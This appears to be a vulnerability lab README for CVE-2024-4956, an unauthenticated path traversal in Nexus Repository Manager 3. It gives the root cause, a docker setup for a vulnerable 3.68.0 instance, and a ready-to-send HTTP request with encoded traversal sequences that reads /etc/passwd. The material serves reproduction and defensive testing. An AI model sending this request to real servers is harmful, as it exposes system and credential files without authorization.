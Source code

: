 # Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication.

References:

- <https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16>

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.68.0:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus.

## Exploit

Just like SpringMVC CVE-2018-1271 from Orange Tsai's [share](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf), Jetty's `URIUtil.canonicalPath()` also treats the empty string as a directory which is the root cause of this vulnerability:

![](1.png)

Simply send following request to reproduce the issue:

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

As you can see, `/etc/passwd` has been exposed directly:

![](2.png)
